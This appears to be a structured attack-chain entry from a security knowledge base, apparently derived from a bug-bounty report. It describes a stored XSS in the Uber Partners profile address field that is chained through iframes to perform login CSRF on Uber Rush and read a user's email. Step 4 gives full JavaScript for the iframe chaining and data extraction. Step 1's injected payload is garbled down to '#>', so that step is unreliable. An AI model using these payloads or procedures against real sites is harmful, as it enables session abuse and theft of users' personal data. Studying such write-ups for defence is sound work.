

---
tags:
  - xss
  - stored-xss
  - javascript
  - data-exfiltration
  - iframe
  - csrf
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Malicious-Payload-into-User-Profile-Address]]'
  - '[[procedures/Trigger-Stored-XSS-on-Fuel-Cards-Enrollment-Page]]'
  - '[[procedures/Observe-XSS-Payload-Execution]]'
  - '[[procedures/Chain-XSS-to-Steal-Rush-User-Data-via-Iframes]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T03:16:14.513Z'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in the Uber
  Partners user profile address field, leading to JavaScript execution and
  potential data theft from the Uber Rush service via iframe chaining.
skill_level: intermediate
impact_level: high
id: 808bd22b-0c1f-485a-beae-c440f37a99f3
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# Stored XSS in Uber Partners Profile Address Chained to Rush Data Theft

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in Uber's partners.uber.com user profile, enabling JavaScript execution and chaining to perform login CSRF on the Rush service for data theft.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)

### Target Environment

- Web platform
- Access to Uber Partners portal (https://partners.uber.com)
- Valid user credentials for Uber Partners account

### Initial Access Requirements

- Authenticated session to Uber Partners
- No special network access beyond standard internet
- Prior knowledge of Uber's subdomain structure (e.g., getrush.uber.com)

## Detailed Attack Procedures

### Step 1: Login and Inject Payload
procedure: [[procedures/Inject-Malicious-Payload-into-User-Profile-Address]]

**Objective**: Inject a stored XSS payload into the user profile address field to persist malicious JavaScript.

**Instructions**: Log in to the Uber Partners portal and navigate to the user profile settings. Modify the address field with the XSS payload using [[commands/xss-payload-alert-injection]]:

```html
#>
```

Save the changes to store the payload server-side.

**Expected Output**: Profile updates successfully without errors; payload is stored.

**Success Indicators**:
- No validation errors on save
- Payload visible in profile edit view

### Step 2: Navigate to Trigger Page
procedure: [[procedures/Trigger-Stored-XSS-on-Fuel-Cards-Enrollment-Page]]

**Objective**: Visit the page where the stored address is reflected, causing the XSS payload to load.

**Instructions**: After injection, navigate to the fuel cards enrollment page at https://partners.uber.com/fuel_cards/enroll. The address field content, including the payload, will be rendered unsanitized.

**Expected Output**: Page loads with the injected address reflected in the DOM.

**Success Indicators**:
- Address field displays the injected content
- No immediate errors or sanitization

### Step 3: Observe Execution
procedure: [[procedures/Observe-XSS-Payload-Execution]]

**Objective**: Confirm JavaScript execution in the victim's browser context.

**Instructions**: Upon page load, monitor the browser console or observe pop-ups. The onerror event in the img tag triggers the prompt(1) execution from [[commands/xss-payload-alert-injection]].

**Expected Output**: Alert box with '1' appears, confirming arbitrary JS execution.

**Success Indicators**:
- Alert dialog pops up
- Console logs show script execution

### Step 4: Chain for Data Theft
procedure: [[procedures/Chain-XSS-to-Steal-Rush-User-Data-via-Iframes]]

**Objective**: Escalate the self-XSS to perform login CSRF on Uber Rush and extract user email data.

**Instructions**: Replace the simple payload with the advanced chaining script using [[commands/javascript-iframe-chaining-rush-theft]]:

```javascript
//Create the iframe to log the user to rush
var rushReg = document.createElement('iframe');
rushReg.setAttribute('src', 'https://getrush.uber.com/oauth/login?original=https://rush.uber.com');
//rushReg.onload = theOther;
document.body.appendChild(rushReg);
alert('done');
//End loading rush

//Wait a few seconds, then load his rush profile page
setTimeout(function() {
var profileIframe = document.createElement('iframe');
profileIframe.setAttribute('src', 'https://getrush.uber.com/business');
profileIframe.setAttribute('id', 'pi');
document.body.appendChild(profileIframe);
//Extract his email
profileIframe.onload = function() {
var d = document.getElementsByClassName('input-group')[0].innerHTML;
alert(d);
}
}, 9000);
```

Inject this into the address field, save, and revisit the enrollment page.

**Expected Output**: First alert 'done' after login iframe; second alert with email-containing HTML after 9 seconds.

**Success Indicators**:
- 'done' alert confirms iframe load
- Email data alerted from profile iframe

## Attack Chain Summary

### Key Achievements

1. Successful storage and reflection of XSS payload in Uber Partners
2. Arbitrary JavaScript execution on the enrollment page
3. Chained exploitation to perform CSRF login on Uber Rush subdomain
4. Extraction of sensitive user data like email via cross-origin iframes

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
